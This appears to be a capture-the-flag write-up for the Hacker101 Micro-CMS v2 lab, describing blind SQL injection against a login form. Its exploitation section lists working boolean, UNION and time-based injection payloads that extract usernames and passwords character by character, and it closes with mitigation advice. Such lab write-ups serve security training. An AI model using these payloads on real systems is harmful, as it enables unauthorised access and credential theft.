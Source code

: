 # Micro-CMS-v2-Blind-SQLi

I. Introduction

        Blind SQL injection (SQLi) is a type of SQL injection attack where an attacker can infer the content of the
    database without directly extracting the data. This is achieved by sending crafted SQL queries to the
    application and analyzing the response of the server, without actually seeing the database content. Blind SQLi
    is commonly used in CTF (Capture the Flag) challenges as a way to test the ability of participants to exploit
    vulnerabilities in web applications. By exploiting Blind SQLi, participants can demonstrate their skills in 
    finding and exploiting vulnerabilities, as well as their ability to analyze application behavior and logic to
    infer the content of the database. Blind SQLi challenges can vary in complexity and difficulty, ranging from
    basic Boolean-based techniques to more advanced techniques involving time delays, error messages, and other
    indicators. This lab is made by hacker101 that encompasses 3 flags but we will be going over one flag.

II. Information Gathering

        After spinning up burp and enabling the proxy I loaded into the website and noticed a CMS changelog link.
    Upon viewing the page I can see they added a login page as well as a change that allows only admins to edit
    and add pages. Continuing mapping the application I click the Markdown Test and notice its similar to CMSv1
    but whenever you try to edit that page is directs you to a login page /admin. The last link is the Create a
    new page which also redirects you to the /admin page. With all of these POST/GET requests in Burp we can start
    to see these interactions in more detail. This concludes the mapping of the application for now.
           

III. Exploitation

        Now that the application has been mapped with all of its functionality I start to fuzz my attack surface.
    I started with the login page as that would open up the most functionality to us. I started by inputting some 
    common username/passwords and notice I get an Unknown User error. None of the easy gimmies worked like
    admin/password...etc. Onto special characters for SQL considering it is a login page and would you look at that. 
    A single apostrophe has done the job. We get an error with the exact SQL query being placed into the backend as
    well as which DB is in use, which is MariaDB. Now I know that I can escape it and write my own magic! I start    
    small and build up... 
    
    **Testing Boolean Payloads:**
    ~~~
    payload1: ' OR (1=1)# // Well that's nice, no errors and it ALSO displays a new error "Invalid Password"
    
    Payload2: ' OR (SELECT CASE WHEN (1=1) THEN 1=1 ELSE 1=2 END)# // Changing the conditionals works
    ~~~
    **Enumeration Test:**
    ~~~
    Payload3: ' OR (SELECT CASE WHEN SUBSTRING(@@version,1,1)='1' THEN 1=1 ELSE 1=2 END)# //Enumerates DB version
    ~~~
    **Enumerating Length of the 1st username:**
    ~~~
    Payload4: ' OR LENGTH(username)=5# // Enums length of username
   
    Payload5: ' OR LENGTH(password)=5# // Enums length of password
    ~~~
    **Enumerating the user/pass using Burp Intruder:**
    ~~~
    Payload6:' OR (SELECT CASE WHEN SUBSTRING(username,§1§,1)='§a§' THEN 1=1 ELSE 1=2 END)#//
    Payload7:' OR (SELECT CASE WHEN SUBSTRING(password,§1§,1)='§a§' THEN 1=1 ELSE 1=2 END)#//
    ~~~  
    
    Other Avenues for exploiting VIA TIME BASED AND UNION SELECT:
    ' UNION SELECT "xyz" as password FROM admins where ''='';--
    NOTE: Union Select will be used for another flag
    ~~~
    Payload1: ' OR (UNION SELECT NULL#) // This also doesn't give us an error but adding a second NULL value errors
    Payload2: ' UNION SELECT 'abc' AS password FROM admins#
    
    Payload1: ' OR (SELECT CASE WHEN SUBSTRING(password,1,1)='k' THEN sleep(10) ELSE 1=2 END)# //induces sleep if 
    condition is true. This would be better if the default login creds message was standard
    ~~~
    
IV. Flag Retrieval

    After you have retrieved the username/password you are able to login and are presented with a flag. 

V. Conclusion/Mitigation

    In summary I was able to use Blind SQLi to enumerate database contents and gain credentials to an admins account.
    For mitigation I would sanitize user input before passing it to the database and use parameterized queries. 
    I would also give a single generic message when trying to login like "unknown login credentials" instead of
    "Unknown Username" and "Invalid password". Even if SQLi wasn't present the ungeneric error messages would lead
    to username enumeration. Additionally the JWT being used has admin:true as the body and that could be a potential
    vulnerability but since this is a CTF and not a real test we will leave it alone.
